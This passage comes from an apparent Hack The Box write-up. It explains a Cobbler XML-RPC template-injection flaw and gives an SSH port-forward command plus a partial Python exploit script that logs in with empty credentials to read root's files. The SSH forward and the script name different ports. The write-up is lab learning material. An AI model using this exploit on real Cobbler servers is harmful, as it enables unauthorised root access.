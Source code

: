 - Profile management: Defines templates for system configurations, including packages, scripts, and network settings.

- PXE boot integration: Supports network booting for unattended installations.

- Template and scripting support: Uses templates (Cheetah) for scripts and configuration files to customize installations.

- Essentially, Cobbler streamlines large-scale deployments, making it easier to manage multiple systems consistently and automatically.
{: .prompt-tip }

So to see what's being hosted in that port, we port forward it using: 
```bash 
ssh -L 25115:localhost:25115 cobbler@cobblestone.htb
```

Reading what's on [this](https://tnpitsecurity.com/blog/cobbler-multiple-vulnerabilities/) page, leads to the direct solution. 

Here is what we're going to do: 
>The privilege escalation relied on a critical vulnerability in Cobbler (≤ 3.2.1), which exposes an XML-RPC API for managing profiles, systems, and templates. The vulnerability arises because Cobbler’s generate_script method renders templates using Cheetah without proper input sanitization. This allows an attacker to perform a template injection, executing arbitrary Python code as the user running Cobbler (typically root). By crafting a malicious template and forcing Cobbler to render it—either through profile or system manipulation—the attacker could execute commands with root privileges, effectively taking full control of the system.
{: .prompt-tip }


```python
import xmlrpc.client
import traceback

COBBLER_URL = "http://127.0.0.1:25151/RPC2"
TARGET_FILE = "/root/root.txt"    # The file you want to read
DEST_FILE = "/leak"               # Template destination in Cobbler

def connect():
    try:
        return xmlrpc.client.ServerProxy(COBBLER_URL, allow_none=True)
    except:
        traceback.print_exc()
        return None

srv = connect()
tok = srv.login("", -1)

# 1. Create a distro
did = srv.new_distro(tok)
srv.modify_distro(did, "name", "pwn_distro", tok)
srv.modify_distro(did, "arch", "x86_64", tok)
srv.modify_distro(did, "breed", "redhat", tok)
srv.modify_distro(did, "kernel", "/boot/vmlinuz-6.1.0-37-amd64", tok)
srv.modify_distro(did, "initrd", "/boot/initrd.img-6.1.0-37-amd64", tok)
srv.save_distro(did, tok)

# 2. Create a profile
pid = srv.new_profile(tok)
srv.modify_profile(pid, "name", "pwn_profile", tok)
srv.modify_profile(pid, "distro", "pwn_distro", tok)
srv.save_profile(pid, tok)

# 3. Create a system pointing to the target file
sid = srv.new_system(tok)
srv.modify_system(sid, "name", "pwnsys", tok)
srv.modify_system(sid, "profile", "pwn_profile", tok)
```
